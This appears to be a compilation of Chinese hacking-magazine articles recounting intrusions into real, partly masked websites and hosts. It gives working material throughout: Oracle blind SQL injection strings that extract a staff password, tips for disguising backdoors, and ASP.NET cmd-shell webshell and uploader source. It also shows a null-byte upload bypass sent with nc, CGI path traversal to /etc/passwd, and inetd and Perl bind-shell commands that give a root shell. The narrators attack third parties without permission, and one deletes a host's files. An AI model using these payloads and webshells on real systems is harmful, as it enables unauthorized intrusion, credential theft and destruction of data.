得到这个路径就意味着你几乎可以把整个站点的结构弄清楚，对后面的入侵将会带来比较大的帮助。同时，你也可以再利用冰狐狸子微型 ASP 后门的“写入文件 FSO”功能，填好路径写个“海阳顶端2005”上去！

关于后门的隐藏，可以采取这样的办法：先修改本机时间，分别编辑两个木马，然后存盘，使木马文件的时间与论坛中文件的一致！这样管理员是非常难以发现这个木马的。同时，修改木马文件名，改成与论坛中的文件名相类似，把它放在“backup（论坛备份）”或“images（图片）”目录下，最后再利用 Attrib 命令给文件加上只读、隐藏属性，相信论坛管理员要找这样的后门就更困难了！

> 本文方法只做技术研讨，如果你要利用它来做一些非法的事，所造成的一切后果均与作者、《黑客防线》和出版社无关。

## JSP+Oracle SQL Injection之旅

SQL Injection 可谓是长盛不衰的话题，从 ASP+MSSQL 到 PHP+MySQL 一路走来……本文是写给菜鸟看的，高手们别砍我哦！

现在很多大型网站，如银行、政府网站一般采用的是 JSP+Oracle……目标站点 http://www.****jp.cn/viewBulletin.do?type=C&bulletin_id=200404010797，如图1所示。

这里是想看一下有没有“all_tables”这个系统表，将“and”后的结果和 0 比较……再依次提交。

```text
http://www.****jp.cn/viewBulletin.do?type=C&bulletin_id=200404010797'and 0<>(select count(*) from user_tables) and '1'='1

http://www.****jp.cn/viewBulletin.do?type=C&bulletin_id=200404010797'and 0<>(select count(*) from user_tab_columns) and '1'='1
```


返回如下结果，如图2所示。

都正确返回，说明存在猜测的系统表。下面看我们怎么猜它的其他表名（注意 Oracle 里的表名、列名都要大写……）。

首先我们看看 Oracle 的系统数据库：

| 表名 | 说明 |
|---|---|
| all_tables | 存放当前 ID 和其他用户的所有表。 |
| user_tables | 存放当前用户所有表。 |
| user_tab_columns | 存放当前用户表的所有列。 |

这些东西是后面操作的基础，是非常重要的。下面看看具体的操作过程。

首先需要看一下系统表是否存在，一般都是存在的，没有就没得玩了。提交 URL：

```text
http://www.****jp.cn/viewBulletin.do?type=C&bulletin_id=200404010797'and 0<>(select count(*) from all_tables) and '1'='1
```

```text
http://www.****jp.cn/viewBulletin.do?type=C&bulletin_id=200404010797'and 0<>(select count(*) from user_tables where substr(table_name,1,1)='P') and '1'='1

http://www.****jp.cn/viewBulletin.do?type=C&bulletin_id=200404010797'and 0<>(select count(*) from user_tables where substr(table_name,1,2)='PL') and '1'='1
```

第二个字母为 L，大家也可能用 Ascii() 来试……到后来才发现这些步骤真是多余……

我们再来看看这个表的长度，确定一下范围才好猜，不然不知道要猜到什么时候才能结束：

```text
http://www.****jp.cn/viewBulletin.do?type=C&bulletin_id=200404010797 and 0<>(select count(*) from user_tables where length(table_name)>8 and table_name like '%25PL%25') and '1'='1'
```

没有正确返回。由此看来不会大于 8，那我们试试等于 8 吧：

```text
http://www.****jp.cn/viewBulletin.do?type=C&bulletin_id=200404010797 and 0<>(select count(*) from user_tables where length(table_name)=8 and table_name like '%25PL%25') and '1'='1'
```

Yeah！正常返回，我们确定表名长度是 8 了。大家如果自己在猜测的时候，也可以用 <、> 等来缩小范围。下面我们继续用上面的语句来猜测表名，最后得出的表名为 PLAN_TAB。

> 这里可以用 Like 来猜表，比如看有没有类似 ADMIN_USERS 表什么的。示例：`... table_name like '%25ADMIN%25' ...` / `... table_name like '%25USERS%25' ...`

表名猜出来了，我们来检测一下：

```text
http://www.****jp.cn/viewBulletin.do?type=C&bulletin_id=200404010797 and 0<>(select count(*) from user_tables where table_name='PLAN_TAB') and '1'='1'
```

正常返回。我们的辛苦总算没有白费，不过烟倒是牺牲了不少。只是革命尚未成功，同志仍需努力！继续猜列名：

```text
http://www.****jp.cn/viewBulletin.do?type=C&bulletin_id=200404010797 and 0<>(select count(*) from user_tab_columns where table_name='PLAN_TAB' and column_name like '%25PASS%25') and '1'='1'
```

试试看有没有 PASS / 一些很容易想到的字段，结果很失望，什么都没有。那有什么办法将它猜出来呢？看下面的方法。

看来这个表里没有什么敏感列名了，有点泄气。再去翻翻 Oracle 的书，突然想到可以直接查列名，汗！可能是以前学 MSSQL、MySQL 的时候形成固定思维了，忘了 Oracle 是不一样的。那我们干脆来直接的，看看有没有敏感列名吧：

```text
http://www.****jp.cn/viewBulletin.do?type=C&bulletin_id=200404010797 and 0<>(select count(*) from user_tab_columns where column_name like '%25PASS%25') and '1'='1'
```

直接来猜，看看有没有 PASS 和 NAME 这样的列名。经测试有 LIKE ID/NAME/PASSWD 这 3 个列名，但它们可能不在同一个表里，那我就拿 LIKE PASS 来测试。先来看有 PASSWD 这个列名对应的表名的长度：

```text
http://www.****jp.cn/viewBulletin.do?type=C&bulletin_id=200404010797 and 0<>(select count(*) from user_tab_columns where column_name like '%25PASS%25' and length(table_name)=8) and '1'='1'
```

得到有 NAME 这个字段对应的表的长度是 8，继续猜到对应的表名：

```text
http://www.****jp.cn/viewBulletin.do?type=C&bulletin_id=200404010797 and 0<>(select count(*) from user_tab_columns where column_name like '%25PASS%25' and substr(table_name,1,1)='T') and '1'='1'
```

它们会不会在同一个表里呢？看完下面就知道了。得到 PASS 对应表名第一个字符为 T：

```text
http://www.****jp.cn/viewBulletin.do?type=C&bulletin_id=200404010797 and 0<>(select count(*) from user_tab_columns where column_name like '%25PASS%25' and substr(table_name,1,8)='T_PASSWD') and '1'='1'
```

一个字符一个字符来猜，方法跟上面猜表的过程一样，只是前面多了一个条件 `column_name like '%25PASS%25'`。最后得到这个表名为：T_PASSWD，接下来把 LIKE ID/NAME/PASSWD 的列名猜完整：

```text
http://www.****jp.cn/viewBulletin.do?type=C&bulletin_id=200404010797 and 0<>(select count(*) from user_tab_columns where table_name='T_PASSWD' and substr(column_name,2,2)='ID') and '1'='1'
```

可以确定 ID 两个字符在最后两个，大家可以改变 Substr() 里的值，慢慢缩小范围：

```text
http://www.****jp.cn/viewBulletin.do?type=C&bulletin_id=200404010797 and 0<>(select count(*) from user_tab_columns where table_name='T_PASSWD' and substr(column_name,1,1)='S') and '1'='1'
```

得到第一个字符为 S：

```text
http://www.****jp.cn/viewBulletin.do?type=C&bulletin_id=200404010797 and 0<>(select count(*) from user_tab_columns where table_name='T_PASSWD' and substr(column_name,1,2)='ST') and '1'='1'
```

第二个字符为 T：

```text
http://www.****jp.cn/viewBulletin.do?type=C&bulletin_id=200404010797 and 0<>(select count(*) from user_tab_columns where table_name='T_PASSWD' and substr(column_name,1,3)='STA') and '1'='1'
```

第三个为 A……直到第八个字符：

```text
http://www.****jp.cn/viewBulletin.do?type=C&bulletin_id=200404010797 and 0<>(select count(*) from user_tab_columns where table_name='T_PASSWD' and substr(column_name,1,8)='STAFF_ID') and '1'='1'
```

从这里就可以看出完全是同一个表了。其实遇到这么多次程序，还没见过是分开建的表呢。最后得出表名是 `T_PASSWD`，列名有 4 个，分别是 `STAFF_ID`、`STS`、`PASSWORD`、`LAST_DATE`，后来证实这些猜解都是正确的（进了服务器就什么都看到咯，如图3所示）。

```text
http://www.****jp.cn/viewBulletin.do?type=C&bulletin_id=200404010797 and 0<(select count(*) from T_PASSWD where substr(PASSWORD,1,1)='1' and STAFF_ID=1) and '1'='1'
```


当然大家也可以用 `Ascii()` 函数来猜，关于这方面很多前辈都说过了，这里就不再说明。不然编辑要说我骗稿费了，呵呵。结果不到 10 分钟就出来了。密码是“19791108”，好像是生日哟。有密码了，没用户名还不行，接下来的事就简单多了：

以上的过程是很枯燥的，死了不少脑细胞，觉得和猜 Access 一样。要是 Oracle 有像 MSSQL 可以直接爆库、表的方法就好了。呵呵，然后，当然是要搞个用户名和密码了。Come on！看看最小的 `STAFF_ID` 的值是多少：

```text
http://www.****jp.cn/viewBulletin.do?type=C&bulletin_id=200404010797 and 0<(select count(*) from T_PASSWD where substr(STS,1,1)='1' and STAFF_ID=1) and '1'='1
```

一步一步来，步骤和上面的没多大差别，先看看长度，再一个个地猜。这个在猜的时候用的时间就长了一点，花了我 25 分钟，最后得到账户是：“TANGBIN”，注入过程正式结束！

```text
http://www.****jp.cn/viewBulletin.do?type=C&bulletin_id=200404010797 and 1=(select min(STAFF_ID) from T_PASSWD) and '1'='1
```

返回正常，不要客气，它就是我们的目标，把它的 Password 搞出来先。好戏就要上演了，还真想看看《黑客帝国》里的动画：

最后补充几点：如果开放 Public 组的 UTL_FILE，则有可能读取服务器上的文件，如果设置错误，可以得到任何文件，如读出 `/etc/passwd` 文件。不过它要和 Union 联合使用，如 `union select 'hoge','../../../../../../etc/passwd','1','1','1' from SOMETABLE--`。关于 Union 查询，angel 的 PHP 注入文章里已经介绍得比较详细，前面的语句要构造假的条件，才能返回后面的查询。当然，你也可以尝试 Update、Insert、跨库等，如果你想知道答案的话，自己来吧！


朋友大学毕业了，没想到很快就找到了自己喜欢的工作，羡慕啊。有天他打电话跟我说公司要做网页，叫我去看看他刚买的 ASP 空间怎么样。好吧，谁叫他是我的好朋友呢？

一到他家他就眉飞色舞地告诉我是怎样选择了一个物美价廉的 ASP 空间，为公司省了钱，速度还挺快……不是叫我来听这个的吧？朋友赶紧把 FTP 账号和密码给了我，叫我看看安全性能怎么样。

先 Ping 一下 219.149.XX.XX，返回 Request timed out，正常。拿出扫描器扫一下，发现只开了 21 和 80 端口。看来不错，漏洞方面补丁也补上了，用的是 IIS5.0。用 FTP 试了一下，速度还不错，传个 ASP 木马上去，呵呵，没有被查杀——可惜不能执行程序（如图1）！又进了朋友刚装的动网后台瞄了瞄，看来是关掉了 FSO 权限。


问朋友对空间的要求大概是什么，朋友说要装 JMail 邮件发送程序，我告诉他不好用，他马上打了个电话给那个网名叫“无级”的空间商。

> “喂，你们的空间怎么不支持 FSO 权限？”

“是啊，为了安全，现在黑客很多啊。”

“那我要装 JMail 怎么办？不行你得给我开放权限，不然退钱给我。”

“要开放 FSO 的话再加 200 块钱啦，你知道，我们用的是硬件防火墙，服务器又要人维护，花费很高。”

“什么？你们开始的时候不是说功能全面的吗？”

……

下面是空间商的废话若干，反正就是不肯退钱的意思，朋友“咣”的一下挂掉电话，气呼呼地坐了下来。我说以后做什么事情还是要仔细一点，最好不要贪图便宜上了奸商的当。朋友开始抽闷烟，而我开始找那个服务器的漏洞。硬件防火墙？很嚣张吗？

不填域名，直接在 IE 上填 IP 进去，竟然发现是对方的广告页面哦，还是在吹嘘站点功能全面。上面还重点介绍了他们的江湖社区，进去一看，站长“无级”。好啊，看来这是老巢了，页面弄得相当华丽。聊天室里人很多，以自己以前玩江湖的经验来看，这个是世纪江湖的收费版本，很新，没发现什么漏洞，不过我们有 FTP 和基本的 ASP 权限，用不着费心思去找注入点了。想了一下，江湖不是用到 FSO 权限吗？况且它还用了好多需要 FSO 支持的插件，难道不是一个服务器？再确认了一下 IP，朋友的空间和这个奸商的空间是在一起的啊！

我登上了 ASP 木马页面，点击浏览 C 盘，没有权限，D、E……呵，E 盘可以浏览！很快发现了网站文件夹，文件名居然是“老大”。下面是其他客户的文件夹。可惜不能修改又不能查看内容，找找 MDB 文件，没有，难道用了 MSSQL 数据库？翻啊翻，终于找到了一个“炎”数据库的东东。拷贝到朋友的 FTP 空间里，下载成功，Yeah！

马上打开一看，乱七八糟地是什么啊？一个都不认识，看来是被加密了。试着用解密程序，可惜解出来的代码比没解密的还难懂。这时我脑子里的第一个想法就是——黑防的编辑们啊，把黑防实验室的网页解密攻略贴出来吧，不然像我这种网页解密菜鸟怎么过日子啊！

牢骚发过了，检测还是要继续，心情有些沮丧。再用 ASP 木马随便拷贝了对方一个页面过来，并下载到本地机器上查看，对方没有把全部的页面加密，不过看到这些不重要的页面代码又怎么样？我走马灯似的用鼠标滚轮上下翻看着代码，朋友给我拿来一罐饮料，问我怎么样了，我摇了摇头，天色已经不早，我也准备收工回家了。回头一看，鼠标正指着一行奇怪的代码“Set fso=CreateObject("Scripting.FileSystemObject1")”，原来如此啊！服务商一定是把注册表里原来的 Scripting.FileSystemObject 改成了现在我们看到的 Scripting.FileSystemObject1，这样一来不知道的人就不能使用 FSO 了，而他自己只要修改几条语句就可以正常使用，真是聪明的手段。

不过现在我们也知道路，真是自助者天助，我跟朋友说有门了，一边把我 ASP 木马页面里的 Scripting.FileSystemObject 全部改成了 Scripting.FileSystemObject1，如图2所示。

```vb
set fso=CreateObject("Scripting.FileSystemObject1")

on error resume next
if rok=cstr(fso.FileExists(fileDel))
if fso.FileExists(fileDel) then
    fso.DeleteFile fileDel,true
end if
if err>0 then
    err.clear
    DeleteFile=false
else
    DeleteFile=true
end if
```


打开 FTP 上传 ASP 后门，试了一下 VER 命令，成功了，如图3所示。


下一步就是提升权限了。把解释 ASP 脚本的 `C:\WINNT\System32\inetsrv\asp.dll` 这个 ISAPI 程序添加到 `/LM/W3SVC/InProcessIsapiApps` 里面……后面就不细说了，不熟悉的回去看第7期的黑防吧。这里再写下去人家要赚骂了。最后，我控制了整个服务器，看了一下进程，里面居然是天网的防火墙，还说什么是硬件防火墙？我把键盘让给了朋友，跟他说给你处理，结果他一上来就是几个 DEL。我说哥们，这可是你花钱买的空间呀，不料他回了一句道：“就当是花了点钱出口气，也比花了钱买罪受要好！”我暴汗！

FSO（FileSystemObject）是微软 ASP 的一个对文件操作的控件，该控件可以对服务器进行读取、新建、修改、删除目录以及文件的操作，是 ASP 编程中非常有用的一个控件。但是因为权限控制的问题，很多虚拟主机服务器的 FSO 反而成为这台服务器的一个公开的后门，因为客户可以在自己的 ASP 网页里面直接对该控件编程，从而控制该服务器。作为网管来说，除了文章中提到的修改 FSO 的名字外，还可以修改 CLSID 的值。

我们知道，除了 CreateObject 方法以外，也可以使用一般的 `<object>` 标注建立一个组件，我们可以在 ASP 里面使用 HTML 的 `<object>` 标注，以便在网页中加入一个组件。方法是：

```html
<object runat=server id=fs1 scope=page progid='Scripting.FileSystemObject'></object>
```

这条命令表示在服务端执行，Scope 表示组件的生命周期，可以选用 Session、Application 或 page（表示当前页面，也可缺省）。这种写法对我们没用，还有一种写法是：

```html
<object runat=server id=fs1 scope=page classid='clsid:clsid的值'></object>
```

我们也可以通过修改该 CLSID 的值而禁用该组件，如将注册表中 `KEY_CLASSES_ROOT\Scripting.FileSystemObject\CLSID` 的值由 `0D43FE01-F093-11CF-8940-00A0C9054228` 改成 `0D43FE01-F093-11CF-8940-00A0C9054229`。

`00A0C9054229`（改了最后面一位），这时候的写法为：

```html
<object runat=server id=fs1 scope=page classid='clsid:0D43FE01-F093-11CF-8940-00A0C9054229'></object>
```

看运行结果，没问题，OK。这时候我们再用：

```html
<object runat=server id=fs1 scope=page classid='clsid:0D43FE01-F093-11CF-8940-00A0C9054228'></object>
```

这时候就出错了。新建一个用户，IIS 里设置对应站点的匿名用户，CACLS 设置目录权限。这样 FSO 可用，但不会影响别人。若不需要 FSO，最好输入 `RegSvr32 /u C:\WINDOWS\SYSTEM32\scrrun.dll` 来彻底禁用 FSO。

## ASP.NET木马

### 攻陷Windows 2003坚强堡垒

○ 文／飞天战斗猪

暑假在家玩得都有些傻了，吃吃睡睡看看欧洲亚洲杯，拿秤称了一下，哇，胖了8斤……好吧，编编程，锻炼锻炼。看一会 ASP.NET 代码，上市信息港看看新闻……不要笑嘛，我们市里的信息港可是 ASP.NET 做的哦，可以学习一下。

扫描一下，开了 81 和 21 端口，FTP 用的不是 Serv-U，没什么可利用的，再看看 81 端口吧。

```http
HTTP/1.1 400 Bad Request
Content-Type: text/html
Date: Sun, 18 Jul 2004 03:32:24 GMT
Connection: close
Content-Length: 35
```

估计对方用的是 Windows Server 2003 或者是 Windows XP。现在有2个思路，一个是 SQL 注入，还有一个是找其他漏洞。

在浏览器里提交 `http://www.xxxxx.org/news/list.aspx?cid=8 and 1=1` 看看有什么反应，返回结果如下：

> “/”应用程序中的服务器错误。  
> 输入字符串的格式不正确。  
> 说明：执行当前 Web 请求期间，出现未处理的异常。请检查堆栈跟踪信息，以了解有关该错误以及代码中导致错误的出处。

> 异常详细信息：System.FormatException: 输入字符串的格式不正确。  
> 源错误：  
> 执行当前 Web 请求期间生成了未处理的异常。可以使用下面的异常堆栈跟踪信息确定有关异常原因和发生位置的信息。

又找了几个页面，都不行。试试暴库吧！介绍过基于 ASP.NET 的这个技术，如果服务器没有屏蔽返回信息的话，暴库成功率是比较高的。

> <font face='宋体' size=2>/data/con32.asax</font>

TIPS：如何手工实现 ASP.NET 暴库？  
在没有工具的时候可以手工递交：

```http
GET /nosecure.asp HTTP/1.0
Host: hostname
Cookie: =
```

哈哈，好了，“/data/con32.asax”就是数据库连接文件了，直接在 IE 上访问一下路径：

> Microsoft Jet Database Engine 错误 '80004005'  
> E:\Mz0r\one\china\data\ssvra4.mdb'不是一个有效的路径。  
> 确定路径名称拼写是正确的，以及是否连接到文件存放的服务器。  
> /data/con32.asax, 行9

赶紧下载打开，密码居然是明文的，哈哈，点击管理入口进后台，选择上传类型，限制了 EXE，算了，等下再说，加个 ASP 类型，上传 ASP 木马！

一切都是那么顺理成章，或许很多朋友都觉得入侵就该结束了，可惜暗含的杀机却在后面：ASP 页面没有显示出来，这台主机根本就没有支持 ASP。现在知道管理员的厉害了：你有张良计我有过墙梯，你再怎样吓我不支持你还怎么搞？

断网，下线，感觉很可惜。又翻了翻 .NET 的书，脑子突然动了一下：我为什么不能做一个 ASP.NET 的木马？不支持 ASP 还不支持 ASP.NET 吗？

说干就干，测试，翻书！Later Three Days……代码如下：

```asp
<%@ Page Language="VB" Debug="true" Trace="false" %>
<%@ Import Namespace="System.Diagnostics" %>
<%@ Import Namespace="System.IO" %>
<script runat="server">
private sub zhixing(xp As Object, M As EventArgs)
    Dim xian as string
    Dim temp as string=server.MapPath(".") & "\\" & "temp"
    shell("cmd.exe /c " & cmd.text & " > " & temp, true, -1)
    Dim XIANREAD as new streamreader(temp,encoding.default)
    xian=XIANREAD.readtoend
    xian=replace(xian,"<","&lt;")
    xian=replace(xian,">","&gt;")
    result.text="<pre>" & xian & "</pre>"
    XIANREAD.close
    If File.exists(temp)=1 then
        File.Delete(temp)
    End If
    cmd.text=""
end sub
</script>
<html> ...
</html>
```

上传到服务器上，然后请求地址如图1所示。


图1

上面的原理是调用 VB.NET 中的 Shell 语句直接执行 CMD，功能类似于早期的 CMD.asp。就这3天时间，我终于得到了 Web 权限，想来这3天真是痛苦，又去秤了一下，居然瘦了好几斤，编程真的会减肥？大力给黑防的某小编推荐哦！

另外再用一个 ASP.NET 的上传页面，上传 EXE 文件，这个不是我自己做的，感谢作者提供，代码如下：

```aspx
<%@ Import Namespace="System.IO" %>
<%@ Page Language="C#" Debug="true" %>
<html>
<head>
<title>上传文件</title>
<script language="C#" runat="server">
public void UploadFile(object sender, EventArgs E)
{
    if(myFile.PostedFile!=null)
    {
        string nam = myFile.PostedFile.FileName;
        int i = nam.LastIndexOf("\\");
        string newext = nam.Substring(i);
        DateTime now = DateTime.Now;
        string newname = now.DayOfYear.ToString()+myFile.PostedFile.ContentLength.ToString();
        myFile.PostedFile.SaveAs(Server.MapPath("\\"+newname+newext));
        fname.Text=myFile.PostedFile.FileName;
        fenc.Text=myFile.PostedFile.ContentType;
        fsize.Text=myFile.PostedFile.ContentLength.ToString();
    }
}
</script>
</head>
<body> ...
</body>
</html>
```

## 脚本攻击 / SCRIPT ATTACK

```html
<center>
<h3>文件上传</h3>
<form id="uploaderform" method="post" action="FileUpload.aspx" enctype="multipart/form-data" runat="server">
<table border="1" cellspacing="2" cellpadding="2">
<tr><td><h5>选择要上传的文件</h5></td></tr>
<tr><td><input type="file" id="myFile" runat="server" NAME="myFile"></td></tr>
<tr><td><input type="button" value="上传" OnServerClick="UploadFile" runat="server" ID="Button1" NAME="Button1"></td></tr>
</table>
</form>
<br><br>
<table border="1" cellspacing="2">
<tr><td><b>文件资料</b></td><td>&nbsp;</td></tr>
<tr><td>文件名</td><td><asp:label id="fname" text="" runat="server" /></td></tr>
<tr><td>文件类型</td><td><asp:label id="ftenc" runat="server" /></td></tr>
<tr><td>文件大小 (in bytes)</td><td><asp:label id="fsize" runat="server" /></td></tr>
</table>
<br><br><br>
</center>
</body>
</html>
```

传上去看看效果，如图2所示。


图2

不管怎么样，要再减掉几斤非得拿到 Admin 权限不可！我们来试试提升权限，Adsutil.vbs+Asp.dll？呵呵，这个机器不支持 ASP，不要嫌我啰嗦，我刚开始也是习惯性地要这样弄了，可是搞了半天才反应过来……

切记切记。况且这个服务器的主人也不是菜鸟……（后续叙述关于 KV2004、反弹后门、信息港地址等经过）

## 自由动力也玩文件上传

文/图 越南补国南海神


自由动力 3.6 由动力文章升级而来，是动易网络网站系统最新的免费版本……经过测试，发现自由动力系统最新版本仍存在文件上传漏洞，不过这种漏洞与动网文件上传漏洞并不一样。


图1

自由动力系统中，用户注册后就可以拥有“管理”权限，如用户相关文章管理、下载管理、图片管理等，如图1所示。

它允许注册用户上传文章、图片和软件。经过动网文件上传漏洞后，黑客采用的那种通过更改文件保存路径的漏洞已经补上了。不过，也许它是为了上传文件的方便识别，上传后的文件名仍按用户原来的文件名保存，也就是说文件名是从客户端接收过来的。问题就出在这里！如果对文件上传漏洞理解了，文件名一样可以利用。下面介绍利用这个漏洞上传任意文件的过程。

先以“Powered by FreePower Ver 3.6”在百度上搜，找到 N 多网站，由于这个系统才发布一个月，很多站才开张，就不选了，找了一个看上去内容较多，又是搞信息技术教育的（我们给它一点安全教育，呵呵）。先注册一个用户 Google，然后在用户管理页面的下载管理中，找到添加下载项和相应页面，选择准备上传的 ASP 文件，但不点上传按钮，如图2所示。


打开抓包软件 WSP，并选中要抓包的页面准备抓包。回到 IE 中上传文件，点“上传”按钮后，提示出错，说这种文件不允许上传，这是预料之中的（能直接上传成功才怪呢），如图3、图4所示。


回到抓包软件中来看看抓包结果吧，WSP 把我刚才的提交过程全记录下来了，把第3行和第4行复制到文件文本中，注意回车也应复制进去，保存为 1.txt，如图5所示。


下面我们来修改这个文件，这里与动网漏洞不同，它没有路径“filepath”，它有文件名参数“filename”，改不了文件路径我们就改文件名！找到 `filename="G:\hk\dv7up\hfjr\updata.asp"` 这一句，在 ASP 后加一空格然后加“.rar”，变成 `filename="G:\hk\dv7up\hfjr\updata.asp .rar"`。这样就可以骗过电脑，让它以为这个文件是 RAR 文件，从而可以上传。由于增加了5个字节，另一处也应相应修改，`Content-Length` 需调整，并另存为 `2.txt`。


现在拿出 WinHex，打开 2.txt，找到上述字符串，把与空格对应的十六进制代码 `20` 改为 `00`（如图6所示），保存退出，我们要的数据就成了，下面就是提交了。

打开 CMD，进入有 NC 的目录，用 NC 以如下命令提交我们的数据：

```bash
nc www.zlxx.net 80 <2.txt
```

很快就返回提交成功的信息，告诉我们“软件上传成功！”，并且告诉我们软件的路径和文件名为“uploadsoft/updata.asp”（如图7所示）。


还等什么，我们到 IE 中去看看自己的成果吧，看我。们的 ASP 文件到底传上去了没有？在 IE 中打开 `http://www.****.net/itedu/uploadsoft/updata.asp`，看，多么熟悉的画面（如图8所示）。有了它，什么样的 ASP 后门不能上传呢？

动网的漏洞多数人知道，所以现在不少网站已经修补了这个漏洞，但对于文件名，有些程序却没有考虑到。其实，上面讲的漏洞在原理上同动网漏洞是一样的，都是利用电脑在读取字符串时遇到“\0”（0x00）时认为字符串结束了，从而丢掉后面的字串。这一电脑特性也不知算不算是漏洞，正如 Unicode 编码特性一样可被人利用。尽管在这里网页过滤了路径，但仍从用户处接收文件名，我们同样可以在字串中构造“\0”，又在结尾处构造 RAR，因为扩展名是从右读取的，它认为文件类型是 RAR，从而可以骗过扩展名验证上传；在保存时，文件名又是从左边读取的，当它遇到“\0”时，后面就都丢掉了，于是文件就被保存成我想要的 Updata.asp 了。我们学习入侵时应了解一个漏洞的实质，灵活变通，对其他类似的系统就能达到同样的入侵目的了。


图8

## 引发连环安全隐患


晚上独自一人上网，本想看看微软有什么新漏洞，好让自己的爱机及时打上补丁。不过没什么漏洞，感觉无聊。正当我正要下线时，同学发来一个网址，说是什么黑客网站，刚开不久，听说里面有好几个高手助阵，并且还说是和我们在同一个城市的人开的。同我一个城市？很有吸引力哦，怎能不看？输入地址后等了漫长的十几秒，首页才“千呼万唤”般显示出来，站点首页的设计还不错，安全问题会如何呢？这当然是我最感兴趣的问题了。

想到他们那设计美丽的首页，估计是动态页面，于是到首页看看能不能找到些有用的东西。设计美丽、布局别具一格的首页是哪个高手写的呢？我不经意把页面滚到底行，嗨，还以为是哪个高手写的，原来是动易公司的产品 FreePower 自由动力 3.6，他们只是改头换面罢了。不是最底那行的“Power by......”，我真的还以为他们自己写的呢！看来有必要下载个 FreePower 3.6 看看是怎么样的。

分析了半天代码都没找到漏洞，最后又落在了“INC”的文件夹上，心里分析着：外面的 ASP 文件也应该是引用它们的吧！里面的文件不多，大约有 20 个，一个叫 `Conn_user.asp` 的文件吸引了我，打开一看，“Dvbbs7.0”——整合动网论坛 7.0，原来这个“动力”可以和其他的论坛整合。可是知道它也没有用，这个文件是 ASP 的，下载不了。

既然这个 `Conn_user.asp` 是被根目录里的 ASP 文件调用的，那 `Conn_user.asp` 里的数据库路径也应该是映射或是在根目录里开始的，因为只有这样才能成功地被根目录里的 ASP 文件调用，不然就会出错！我以前搞自己的 BBS 也犯过同样的错误，老是跳出找不到数据库的错误，而且还把数据的位置也暴了出来。那么这个文件会不会也有同样的问题？直接在自己的 IE 打了 `http://127.0.0.1/inc/conn_user.asp`，果然没有猜错，数据库的物理路径直接出来了。为了证实这个问题是否存在，我又一次架上小猫直奔搜索引擎，决定去搜一搜，随手试了好几个网站，都发现在这个问题！

BUG 发现了，接下来就是对“XX 黑客网站”下手了。于是输入 `http://www.xxx.com/inc/conn_user`，那个令我兴奋的出错信息终于跑了出来，是整合了 DVBBS7.0+SP2 的数据库，数据库名也真够复杂的，有“#”，还有“@”，最后还是 ASP 后缀，生怕被别人猜到（如图1）。


图1

看看能不能下载，拿出 FlashGet 下载数据库地址，下载完成！迫不及待地用 Access 2000 打开它，找到那 Admin 表，有 2 个管理员，其中一个默认是没有权限的，抽出另一个 ID 的 MD5 挂上字典跑。

现在已经是 1 点多了，我总不能等它跑完字典吧？说不定天亮也跑不出来，那可完了，于是把唯一的数据库翻翻，看有什么有用的东西。“DV_Log”表里竟然记录了大量的操作信息，甚至还有几串让我看着觉得很怪的字符，难道是密码？还真是密码，拿着它直奔后台，把“黑客学习班”封了，发论坛公告说那个版不再开。

从“动力”到 DVBBS 论坛，没有“动力”的暴库就没有 DVBBS 的数据库下载，没有 DVBBS 数据库的日志记录，密码就没有入侵后台。整个过程是相互关联的。其实这次并没有什么新的技术，只要多些留意就会有很多的问题出现。希望论坛管理员将不需要的日志清除，日志有好也有不好的地方，通常日志也会让别人看到一部分泄密的密码之类的问题。

| 适合读者 | Linux爱好者 / CGI程序员 |
|---|---|
| 前置知识 | Linux基本命令 |
| 难度等级 | 中 |

文／图 CS之舞

## CGI漏洞配合本地溢出 盗定Linux主机


本人是大菜鸟一个，很想学 Linux 入侵，可是最近也没出什么大的漏洞和 Exploit……初步确定为 Linux 机器……我们就以它做目标了（我发现这一网段好东西不少，和我有相同兴趣的朋友们不妨拿出工具箱，大家一起来练手）！

接下来我就对目标一阵狂轰乱扫，用 Retina 扫出来的漏洞倒是不少……然后再换 SSS 扫描了一下，得到了一些 CGI 漏洞，如 `http://xxxxxxxxxxxx/index.php?tampon=test` 等，误报多多啊！

正准备打退堂鼓的时候，突然发现这个服务器的 Web 程序用了 CGI，心里一喜，这可能就是我们的突破口吧！在 Web 瞎逛了一会儿，看到一个使用参数的地方：

```
http://xxxxxxxxxxxx/i-mail/i-mail.cgi?p=shopping/center.html
```

这个 i-mail 很少看到，不知道是什么系统。先试试常用的 `../`，看可不可以跳到 `/etc/passwd` 这个文档，慢慢一步一步加 `../`，如下：

```
http://xxxxxxxxxxxx/i-mail/i-mail.cgi?p=../../etc/passwd%00
```

注意这里后面一定要加 `%00`。当我尝试加到第 7 个 `../` 的时候，顺利读出了 Passwd 文件，如图1所示！

```
http://xxxxxxxxxxxx/i-mail/i-mail.cgi?p=../../../../../../etc/passwd%00
```

出来好多用户啊！现在我们要做的就是把 Passwd 文件复制下来，再分离用户。


图1

> ### 如何简单分离密码文档？
> 分离用户的简单办法：可以在 Linux 下对 Passwd 文件执行筛选命令，将用户名字段提取出来，便于快速得到用户字典。

得到了这么多账户和密码，可以选择去跑 FTP 密码，但是大家想想，有这么多账户，不可能没有弱口令吧？……还是看看这个 CGI 能不能执行命令吧！直接在参数后面加上一个 `|ls -al|`，如图2所示。


图2

## 脚本攻击 / SCRIPT ATTACK

看到这里，可能大家都在想直接开启一个 Telnet 服务算了，用 CGI 写一条语句进去。

```
echo "telnet stream tcp nowait root /usr/sbin/in.telnetd in.telnetd" >/tmp/x; /usr/sbin/inetd -s /tmp/x; rm -rf /tmp/x;
```

要不干脆点来个 `echo '54321 stream tcp nowait root /bin/sh sh -i' >/tmp/.x`，连 Telnet 都免了，如果运气好，服务器没有防火墙，我们就可以直接 Telnet 54321 了！

想像中好像很容易，可惜就是空想。测试过后就是 Telnet 进不去。一招不行再换一招，用 CGI 写一个 Perl 后门吧！

```
echo "use Socket; $port=1234; $proto=getprotobyname('tcp'); $cmd='/bin/sh'; socket(SERVER, PF_INET, SOCK_STREAM, $proto) or die; setsockopt(SERVER, SOL_SOCKET, SO_REUSEADDR, pack('l',1)) or die; bind(SERVER, sockaddr_in($port, INADDR_ANY)) or die; listen(SERVER, SOMAXCONN) or die; for(;$paddr=accept(CLIENT,SERVER); close CLIENT){ open(STDIN,'>&CLIENT'); open(STDOUT,'>&CLIENT'); open(STDERR,'>&CLIENT'); system($cmd); close(STDIN);close(STDOUT);close(STDERR);} " >/tmp/test
```

这可省事多了。先在这个机器上执行 `/usr/bin/perl x.pl` 这个后门，看到 IE 进度条慢慢增加，等它完成后赶快去 Telnet ip 1234，成功！直接得到一个 Shell。接着需要继续提权，查看系统版本 `uname -a`。

```
Linux Kernel 2.1 ...
```
